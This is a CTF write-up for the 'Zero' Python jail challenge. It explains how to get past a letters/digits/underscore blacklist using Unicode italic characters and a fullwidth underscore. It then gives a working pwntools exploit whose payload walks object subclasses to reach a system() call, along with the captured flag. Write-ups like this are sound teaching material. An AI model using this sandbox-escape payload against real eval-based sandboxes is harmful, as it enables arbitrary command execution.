

# Zero

### Challenge:
##### Zero letters, zero numbers, zero underscores, zero builtins, and zero hope of escaping.
##### Author: SteakEnthusiast

##### Links: ```nc 35.222.133.12 5000```
##### Files: [zero.zip](zero.zip)

### Solution:

Banger challenge, my favourite from the ctf.

Looking at the source code we can pretty much see it's a standard pyjail with a very oppressive blacklist, our code also gets eval-ed without any builtins functions:

```py
def check(code):
    # no letters
    alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    # no numbers
    numbers = "0123456789"
    # no underscores
    underscore = "__"
    
    return not any((c in alphabet) or (c in numbers) or (underscore in code) for c in code)

def safe_eval(code):
    if (check(code)):
        g = {'__builtins__': None}
        l = {'__builtins__': None}
        return print(eval(code, g, l )) # good luck!
    else:
        print("lol no")
        
code = input(">>> ")
safe_eval(code)
```

We can bypass the character blacklist by using italics [https://lingojam.com/ItalicTextGenerator](https://lingojam.com/ItalicTextGenerator), same with the underscores we can use the unicode character ```＿``` (U+ff3f), the only thing we're missing is numbers.
Thankfully, we're inside an eval, i used this function to replace the use of numbers in my payload:

```py
def true(n):
    return (("(()==())+"*n)[:-1])
```

()==() evaluates to True, which in turn is 1, if we do True+True we get 2, see where i'm going?
I initially were using italic True instead of ()==() but for some reason it was messing up in remote while it worked fine in local so i just changed it.

Once we bypass the blacklist the only thing standing between us and the flag is the lack of builtins, thankfully we can use some well known payloads to get the flag, specifically i used one from [here](https://github.com/salvatore-abello/python-ctf-cheatsheet/blob/main/pyjails/README.md#no-ascii-letters-no-double-underscores-no-builtins-no-quotesdouble-quotes-inside-eval--python38).

Putting it all together:
```py
from pwn import *

r = remote("35.222.133.12", 5000)

def true(n):
    return (("(()==())+"*n)[:-1])

# payload from https://github.com/salvatore-abello/python-ctf-cheatsheet/blob/main/pyjails/README.md#no-ascii-letters-no-double-underscores-no-builtins-no-quotesdouble-quotes-inside-eval--python38
payload = "[𝘺:=()._＿𝘥𝘰𝘤＿_, 𝘢:=𝘺["+true(19)+"],()._＿𝘤𝘭𝘢𝘴𝘴＿_._＿𝘮𝘳𝘰＿_["+true(1)+"]._＿𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘦𝘴＿_()["+true(104)+"].𝘭𝘰𝘢𝘥_𝘮𝘰𝘥𝘶𝘭𝘦(𝘺["+true(34)+"]+𝘢).𝘴𝘺𝘴𝘵𝘦𝘮(𝘢+𝘺["+true(56)+"])]"

r.sendline(payload)
r.interactive()
#uoftctf{zero_security_too_apparently_lmao}
```

Flag: ```uoftctf{zero_security_too_apparently_lmao}```